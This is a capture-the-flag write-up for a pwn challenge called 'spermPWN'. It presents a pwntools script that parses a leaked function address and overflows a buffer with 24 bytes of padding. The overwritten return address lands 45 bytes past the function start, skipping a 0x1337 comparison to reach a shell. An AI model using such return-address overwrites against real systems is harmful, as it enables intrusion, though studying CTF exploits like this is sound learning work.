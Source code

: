 # spermPWN


Description : here you go, some free points.

<!--more-->

```python
from pwn import *

# Setup pwntools context for 64-bit architecture
context(arch='amd64', os='linux')

# Start the process
#p = process('./chall')

#remote nc pwn.akasec.club 2001
p = remote('pwn.akasec.club', 2001)

# Load the ELF binary to extract symbols and addresses
e = ELF('./chall')

# Receive the line containing the address of returnToMePlease
func = p.recvline()

# The output is something like: b'return to me please : 5555555551c9\n'
# We need to extract the address part (ascii string) from the line
func = func[24:len(func)-1]  # Extract '5555555551c9' from the output

# Convert the ASCII address string to an integer
func_addr = int(func, 16)

# Add 45 to the extracted address
new_func_addr = func_addr + 45

# Convert the new address to little-endian format using p64
new_func_addr_packed = p64(new_func_addr)

# Create the payload
padding = b"A" * 24  # Overflow buffer + overwrite return address
payload = padding + new_func_addr_packed

# Attach GDB to the running process and set a breakpoint at main+99


# Send the payload
p.sendline(payload)

# Drop into interactive mode to see the output
p.interactive()

```

## Explanation

at new_func_addr+0, you'll never spawn a shell because we fill a register with 0 then we compare it with 0x1337.

But that's like having your front door locked but your back door opened...So let's just go through the back door new_func_addr+45 (As in after the comparison).

